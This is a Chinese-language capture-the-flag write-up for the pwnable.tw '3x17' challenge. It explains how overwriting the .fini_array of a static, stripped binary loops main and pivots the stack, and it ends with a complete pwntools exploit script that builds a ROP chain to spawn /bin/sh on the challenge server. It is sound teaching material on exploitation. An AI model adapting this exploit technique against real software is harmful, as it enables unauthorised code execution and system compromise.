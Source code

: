 ```yaml
---

title: pwnable.tw WriteUp - 3x17
lang: zh
layout: article
show_subscribe: false
tags: [ctf,pwn]

---
```


[ 3x17 题目链接](https://pwnable.tw/challenge/#32)

```bash
z1933@1933:~/workplace/vbshare/ctf 
$ file 3x17 
3x17: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3, stripped
z1933@1933:~/workplace/vbshare/ctf 
$ checksec 3x17
[*] '/home/z1933/workplace/vbshare/ctf/3x17'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
z1933@1933:~/workplace/vbshare/ctf 
```

静态链接 + 去符号。在入口点找到 main 函数。


根据 [Linux Standard Base Specification 3.1__libc_start_main](https://refspecs.linuxbase.org/LSB_3.1.0/LSB-generic/LSB-generic/baselib---libc-start-main-.html) 。__libc_start_main 传入的第一个参数就是 main 函数的地址。

找到了 main 之后，反编译如下：

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *v4; // [rsp+8h] [rbp-28h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  result = (unsigned __int8)++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    write(1u, "addr:", 5uLL);
    read(0, buf, 24uLL);
    v4 = (char *)sub_40EE70(buf);
    write(1u, "data:", 5uLL);
    read(0, v4, 0x18uLL);
    result = 0;
  }
  if ( __readfsqword(0x28u) != v6 )
    cannaryfail();
  return result;
}
```

`sub_40EE70` 函数大概就是检查输入是不是一个数字,然后把字符转成数字返回。我分析时发现，里面有很多冗余(比如有的条件跳转实际上是一定会跳转或者不跳转的)，反编译结果不准确，只能对着汇编逆向分析。

对程序调试分析会发现 main 使得我们可以在可写的位置任意写 24 字节,然后程序退出。

好叭，到这里我就卡住了。参考了一下别人的题解: [pwnable.tw 3x17](https://www.cnblogs.com/Rookle/p/12884559.html) 才发现原来 main 函数在结束后还会执行 [__libc_start_main 参数列表](https://refspecs.linuxbase.org/LSB_3.1.0/LSB-generic/LSB-generic/baselib---libc-start-main-.html) 中的  `void (*fini) (void)` 函数,也就是倒数第三个函数即 `0x402960` 处的函数,在 IDA 中我把它命名为 `_libc_fini` 函数。

`_libc_fini` 函数会倒序执行 `.fini_array` 节中的表所存的函数。

`_libc_fini` 函数的反编译:

```cpp
__int64 libc_fini()
{
  signed __int64 v0; // rbx

  if ( (&finiend - (_UNKNOWN *)fini0) >> 3 )
  {
    v0 = ((&finiend - (_UNKNOWN *)fini0) >> 3) - 1;
    do
      fini0[v0--]();
    while ( v0 != -1 );
  }
  return term_proc();
}
```

`finiend` 是 `.fini_array` 节的开始位置， `finiend` 是 `.fini_array` 节的结束位置。从反编译可以看出是倒序调用的。 `.fini_array` 节权限是可写的。

如果我们把 fini[1] 写入 main 函数的地址, fini[0] 写入 `_libc_fini` 函数,那么我们就可以循环调用 main 函数。就有很多次写的机会了。

**调用链:**

```
                                                                                                                              
+--------------------+                     +-----------------------------+                                                    
|                    |                     |                             |                     +-----------------------------+
|                    |                     |          fini[1] 调用       |                     |                             |
|          main     ------------------------>                          ------------------------->        fini[0] 调用        |
|                    |                     |           main              |                     |                             |
|                    |                     |                             |                     |        libc_fini            |
+--------------------+                     +--------------^--------------+                     +--|--------------------------+
                                                          |                                       |                           
                                                          |                                       |                           
                                                          |                                       |                           
                                                          |                                       |                           
                                                          |                                       |                           
                                                          |---------------------------------------+                           
                                                                                                                              
                                                                                                                              
                     
```

现在我们可以在可写地址，写任意值。想到用 ROP 来 getshell 。因为不知道栈地址，不能往栈上写。但我们可以控制 `fini[1], fini[0]` 两处的gadget 。我们知道 `leave` 指令等价于:

```
mov rsp,rbp
pop rbp
```

要是能用 leave 指令把栈指针 rsp 移到一个我们写 gadget 的地方就好了。所以我们需要观察 rbp ,让 rbp 指向一个我们写 gadget 的位置,再用 leave 指令，就转移了栈指针。 在看 `_libc_fini` 函数的反汇编时会发现 rbp 会被初始化为  `.fini_array` 表的起始地址, 然后调用 fini[1]，  fini[0]。 如果我们把 `fini[0]` 写入 `leave;ret` gadget , `fini[1]` 写 `ret` gadget , 这样在最后就可以把栈转移到  `.fini_array` 节中了,还可以退出 main 的循环。


## exp:

```python
#!/usr/bin/env python3
from struct import pack
from pwn import *

HOST='chall.pwnable.tw'
PORT=10105
PROC="./3x17"

io=None

if len(sys.argv) == 1 : 
    io=process(PROC)
else:
    log.info("remote start")
    # 设置代理
    context.proxy=(socks.SOCKS5,'localhost',7890)
    io=remote(HOST,PORT)

def write(addr,payload):
    io.sendafter('addr:',str(addr))
    io.sendafter('data:',payload)

fini_arry=0x4B40F0
main=0x0401B6D
libc_fini=0x402960

leave_ret=0x0000000000401c4b # leave ; ret
ret=0x0000000000401C4C

binsh="/bin/sh\x00"

rsp=0x4B4100

pop_rax_ret=0x000000000041e4af # pop rax ; ret
pop_rdx_rsi_ret=0x000000000044a309 # pop rdx ; pop rsi ; ret
pop_rdi_ret=0x0000000000401696 # pop rdi ; ret
syscall=0x00000000004022b4 # syscall

# 构造循环
write(fini_arry,p64(libc_fini)+p64(main))

# 写入gadget
write(rsp,p64(pop_rax_ret))
write(rsp+1*8,p64(0x3b))
write(rsp+2*8,p64(pop_rdx_rsi_ret))
write(rsp+3*8,p64(0))
write(rsp+4*8,p64(0))
write(rsp+5*8,p64(pop_rdi_ret))
write(rsp+6*8,p64(rsp+10*8))
write(rsp+7*8,p64(syscall))

# 找个可写的位置写binsh
write(rsp+10*8,binsh)

# 栈转移
write(fini_arry,p64(leave_ret)+p64(ret))

io.interactive()

```

